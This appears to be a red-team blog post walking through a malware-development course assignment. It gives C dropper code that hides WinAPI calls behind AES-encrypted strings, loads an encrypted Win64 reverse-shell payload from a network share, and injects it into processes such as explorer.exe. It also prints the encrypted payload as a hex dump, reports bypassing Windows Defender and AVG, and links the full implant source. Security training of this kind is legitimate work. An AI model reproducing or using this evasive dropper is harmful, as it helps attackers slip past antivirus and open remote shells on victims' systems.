 ```yaml
---
layout: single
title: AV Evasion - Sharing is (s)caring
date: 2020-10-02
classes: wide
header:
  teaser: /assets/images/AV_evasion/sharing_is_caring.jpg
tags:
  - Pentester
  - Windows
  - Reverse shell
  - AV Evasion
  - Kitties
--- 
```

![](/assets/images/AV_evasion/sharing_is_caring.jpg)<br>

## Introduction
Hello hackers and welcome back to the 3rd and last assignment of the well done course on Malware Development by [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials), in the previous [blog post](https://blackcloud.me/the-payload-is-behind-kitties/) we saw PE injection using a payload hidden inside an image, implemented the dropper with the capacity of extraction of the payload and injecting it in the PE process target. The last assignmet ask us to encrypt a payload, load it on the file system or in our case in shared folder on the target OS, and write a dropper that open the payload and trigger the injection. The suggestions from reenz0h here are to use the [CreateFileA](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) and [ReadFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) WinAPI functions.

## The Assignment
Let's start taking our last dropper and check what we have and what we must change.<br>
The most of the code is working pretty well as we saw, but the payload extraction has to be changed because now reenz0h asked to open the payload from a directory on the fiule system, we choosed a network sherd folder, so take a look closer to the payload memory loading and analyze what we have to change.

## The Payload
In the previous posts we already prepared and encrypted the payload that was implemented as a resource or hidden behind an image, so there isn't much work here. The AES256 encrypted payload is the same used in the last post so a simple Win64 reverse shell

Let's check the payload with ```xxd```
```bash
xxd -g1 payload_enc
00000000: 4d 37 18 fc 9d 9a ac 18 47 a6 fc 63 96 fc df 01  M7......G..c....
00000010: 1b 24 25 c0 7f 11 c6 5b 9a 8f b6 c3 1b e3 de 01  .$%....[........
00000020: 9a e3 de 83 1b e0 82 dc 60 9d 90 f8 b9 53 c9 78  ........`....S.x
00000030: 35 a3 92 1e 74 65 04 71 2f 9f e3 37 47 1a b9 3a  5...te.q/..7G..:
00000040: 55 60 f3 78 c0 64 1d ef 60 81 79 19 8e e2 44 3e  U`.x.d..`.y...D>
00000050: 06 1c 01 0c 35 8a 28 f3 38 cf 13 0e 07 05 ff 37  ....5.(.8......7
00000060: 39 98 52 b4 45 65 46 27 47 4d 1a 5d 7a 1e e3 4e  9.R.EeF'GM.]z..N
00000070: 2c 0b be e1 01 78 99 48 30 c3 01 cc e4 12 49 96  ,....x.H0.....I.
00000080: c0 d8 0d 1d 5d 0b 14 6a 64 b7 04 ae 34 6c 27 4f  ....]..jd...4l'O
00000090: 9e ef c9 58 15 86 31 57 a9 1b 8f 7c 9b 69 73 7d  ...X..1W...|.is}
000000a0: ba 53 93 34 1d db c0 c4 d9 be 2a 47 0c 63 56 0d  .S.4......*G.cV.
000000b0: 43 9d 27 fd 12 1c 11 61 ae f5 b8 d7 eb f2 ad 67  C.'....a.......g
000000c0: 25 1b f9 ef 24 4b 6c ed 04 63 ea 68 92 63 ee 75  %...$Kl..c.h.c.u
000000d0: 48 65 40 c3 50 f2 d2 88 8c 43 51 1c ea 82 67 9d  He@.P....CQ...g.
000000e0: 32 4f 13 f9 ba df da 0e dc e6 0a 69 8d 87 98 9a  2O.........i....
000000f0: df a4 41 60 a0 1b f6 85 e2 57 3c 57 d2 b6 06 b5  ..A`.....W<W....
00000100: 41 40 24 c9 2d f1 68 c4 57 6e c4 4d 43 18 e5 4f  A@$.-.h.Wn.MC..O
00000110: 09 0c 89 ff c2 d0 4a bc 55 b6 50 3a b4 53 dd 69  ......J.U.P:.S.i
00000120: 62 2d c2 89 d1 a9 11 c3 d2 57 63 ed 7f 31 e3 41  b-.......Wc..1.A
00000130: fb 91 08 1e 9e d7 94 17 58 4c 7b 0d 79 ee 9b fe  ........XL{.y...
00000140: 5f 59 b7 f3 bb 61 fb 0e eb 45 da 6c b5 9e e5 f9  _Y...a...E.l....
00000150: 65 fb 18 7f a0 9a d3 7d 63 76 79 a2 01 ea 1a f8  e......}cvy.....
00000160: dd 54 cf 64 bc 8c b2 d2 26 04 b9 d4 6d 97 78 88  .T.d....&...m.x.
00000170: 79 d8 e7 50 2a 21 18 4f 1a e3 b4 9d ec c4 de 11  y..P*!.O........
00000180: 6d 8d fc 05 d2 a1 42 ff 6b ad 75 67 16 26 93 66  m.....B.k.ug.&.f
00000190: 55 76 86 eb 4c c7 45 c1 a1 3b f5 12 a6 5a 6a 01  Uv..L.E..;...Zj.
000001a0: fe 31 13 10 77 1b cd 47 dd d8 c2 8a cc 90 ca b5  .1..w..G........
000001b0: b2 64 40 d6 0a 73 66 76 95 08 1c cc b6 f7 6f 9c  .d@..sfv......o.
000001c0: 04 46 10 53 9e 1f 09 bc 95 cf 25 70 e1 38 0b 9c  .F.S......%p.8..
```
Now we must mount the folder where the payload is, in the target OS as a shared folder. 

## The Dropper
First thing first we define the size of our buffer
```c
  #define BUFFSIZE 512
```
Next we have to define the elements needed to call the ```CreateFileA``` and ```ReadFile``` functions in the encrypted way.<br>
The first elements are the pointers.
```c
  HANDLE (WINAPI * pCreateFileA)(
    LPCSTR                lpFileName,
    DWORD                 dwDesiredAccess,
    DWORD                 dwShareMode,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    DWORD                 dwCreationDisposition,
    DWORD                 dwFlagsAndAttributes,
    HANDLE                hTemplateFile
  );

  BOOL (WINAPI * pReadFile)(
    HANDLE       hFile,
    LPVOID       lpBuffer,
    DWORD        nNumberOfBytesToRead,
    LPDWORD      lpNumberOfBytesRead,
    LPOVERLAPPED lpOverlapped
  );

```
Then the encrypted strings,
```c
  unsigned char sCreateFileA[] = { ... };
  unsigned char sReadFile[] = { ... };
```
the strings decryption  
```c
  AESDecrypt((char *) sCreateFileA, sizeof(sCreateFileA), key, sizeof(key));
  AESDecrypt((char *) sReadFile, sizeof(sReadFile), key, sizeof(key));
```
and the address assignment to the function pointers
```c
  pCreateFileA = GetProcAddress(GetModuleHandle(sKernel), sCreateFileA);
  pReadFile = GetProcAddress(GetModuleHandle(sKernel), sReadFile);
```
Next we have to define the file ```HANDLE```, the shared path of the payload (we have to use the double backslash to avoid the escaping chars) and the payload pointer.

```c
  HANDLE hFile;
  char path[] = "\\\\tsclient\\share\\payload_enc";
  char* payload[BUFFSIZE] = {0};
```
Last but not least, as for the previous post, we must change the way the payload is loaded in memory.

```c
  // Load resources section
  res = pFindResourceA(NULL, MAKEINTRESOURCE(IMAGE), RT_RCDATA);
  resHandle = pLoadResource(NULL, res);
      
  // Extract payload from the image
  image = (char*)pLockResource(resHandle); // lock the resource and point to the first char of the jpg
  image_len = SizeofResource(NULL, res); // get the size of the jpg + p0 + last 7 bytes 
  
  end = image + image_len - 7; // jump to the end of the jpg and read the last 7 bytes that are the original size of the jpg without p0
  size = atoi(end); // cast from char to int, now size is the original size of the jpg
  offset = image + size; // offset points to the first char of the p0
  p0_len = image_len - size - 7; // calculate the payload size
  memcpy(p0, offset, p0_len); // copy in another memory area the effective p0

  // Allocate some memory buffer for p0
  exec_mem = pVirtualAlloc(0, p0_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Copy p0 to new memory buffer
  pRtlMoveMemory(exec_mem, p0, p0_len);
```
In the code trunk below, referred to the dropper of the previous post, the payload is loaded from the resources and extracted from the image but now we have an encrypted file on shared folder so we have to change the dropper like this

```c
  // Load the payload from FS to memory
  hFile = pCreateFileA(path, 
                      GENERIC_READ,
                      FILE_SHARE_READ, 
                      NULL, 
                      OPEN_EXISTING, 
                      FILE_ATTRIBUTE_NORMAL, 
                      NULL);
  
  if (hFile == INVALID_HANDLE_VALUE) {
    return 0;
  }

  if (FALSE == pReadFile(hFile, payload, (BUFFSIZE-1), NULL, NULL)) {
    return 0;
  }
  
  // Close the HANDLE
  pCloseHandle(hFile);
  
  payload_len = strlen(payload);
  
  // Allocate some memory buffer for payload
  exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Copy payload to new memory buffer
  pRtlMoveMemory(exec_mem, payload, payload_len);
```
After opening the file with ```CreateFileA``` function we need to read it with ```ReadFile```, this function load the payload as binary stream in the ```payload``` pointer in memory. What we must do now is to calculate the payload lenght and move the payload to another RW memory buffer. After that we are ready to decrypt our payload and inject it in our PE target process.

## Tests
As in the previous post we tested the dropper on different process: ```explorer.exe```, ```notepad.exe``` and ```smartscreen.exe``` but in this case  the injection doesn't trigger Windows Defender nor AVG Free "only" on ```explorer.exe``` and ```smartscreen.exe```, AVG scan the dropper and let it execute the reverse shell payload maintaining the shell active. So, also in this case, we are following the TOON rule (Two is One and One is None) also in this case.  

![](/assets/images/AV_evasion/AVG_fs_bypass.gif)<br>

and [here](https://github.com/bolonobolo/av_evasion/tree/master/PE_Injection/Sharing%20is%20scaring/implant.cpp) you can find the dropper code. <br>
We hope you enjoied the ride on ```RedTeam Operator Malware Development Essentials``` walkthrough assignments and stay tuned for the ```Intermediate``` level posts :)

## References
Malware Dev Essentials Course
- [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [reenz0h](https
://twitter.com/Sektor7Net) <br>
